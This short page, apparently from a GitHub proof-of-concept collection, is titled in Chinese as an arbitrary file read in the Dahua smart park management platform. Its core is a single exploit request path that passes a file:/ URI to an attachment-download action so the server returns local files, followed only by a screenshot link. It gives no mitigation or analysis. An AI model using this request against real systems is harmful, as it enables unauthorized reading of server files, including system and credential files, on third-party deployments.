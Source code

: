 
## 大华智慧园区管理平台任意文件读取

## poc
```
/portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/
```

![image](https://github.com/wy876/POC/assets/139549762/63bb42ac-8bd8-401e-a61b-120e7a910d5c)
